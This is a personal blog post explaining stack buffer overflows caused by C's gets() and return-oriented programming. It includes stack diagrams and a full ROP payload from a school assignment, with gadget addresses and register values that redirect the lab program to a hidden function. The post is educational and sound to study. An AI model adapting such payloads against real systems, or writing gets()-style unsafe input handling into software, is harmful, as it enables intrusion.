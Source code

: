 ```yaml
---
layout: page
title: Blog 
permalink: /blog/
---
```



# Hacking the stack using code injection and ROP 

<text style="color : gray">February 9, 2024</text>

Using C's `gets()` function can have serious cybersecurity risks.

Say a function asks for a 16-byte string argument from a user: 

```c
int main() { 
    char buf[16];
    gets(buf);
    return 0;
}
```

Then, upon calling `gets(buf)`, the stack will look something like
```
higher addr's

|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
|      buf bytes 0-7      |
|-------------------------|
|      buf bytes 8-15     |
--------------------------- < top of stack
```

The issue with this is that `gets()` will keep reading and copying input from the input past 16 bytes allocated for `buf`.

What happens then? 

Lets use the following input bytes as an example: 

```
ff ff ff ff ff ff ff ff 
ff ff ff ff ff ff ff ff 
12 34 56
```

Then, the stack might look a bit like: 

```
|      stack contents     |
|-------------------------|
|      stack contents     |
|-------------------------|
| 12 34 56 k contents     |
|-------------------------|
| ff ff ff ff ff ff ff ff |
|-------------------------|
| ff ff ff ff ff ff ff ff |
--------------------------- < top of stack
```

Even though we have filled buf, the program keeps loading in bytes 
onto the stack until a terminating character is entered. Anything that was previously stored on the stack can get overwritten.

What's stored on the stack? 

Link Registers (saved addresses to return to after a subroutine)!

This means that when we are inside a subroutine, somewhere on the stack there is a return address saved to jump back to once we exit the current subroutine.

Thus, we can overwrite the address on the stack using `gets(buf)` and a carefully crafted user input. One example I had from a school assignment:

```
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
11 11 11 11 11 11 11 11 
54 3e 45 00 00 00 00 00 // 0x453e54, address of gadget 1 (load x1) to load in read_file lr
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
80 9a 44 00 00 00 00 00 // 0x449a80, address of gadget 2 to load x0, placed in lr during gadget 1
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
90 ca f0 ff ff ff 00 00 // 0xfffffff0ca90, value of x1 (addr of ph33rm3n00bz)
11 11 11 11 11 11 11 11
e8 07 40 00 00 00 00 00 // 0x4007e8, addr of pwn3
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
3c 00 00 00 00 00 00 00  // 60, value to put in x0 in gadget 2
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
11 11 11 11 11 11 11 11
70 68 33 33 72 6d 33 6e // ph33rm3n00bz, value to put in x1, placed near value of $sp when reaching pwn3 
30 30 62 7a 00 00 00 00 
``` 
The above input was used to overwrite 3 link registers, overwrite 2 registers, and jump to a special function in the code.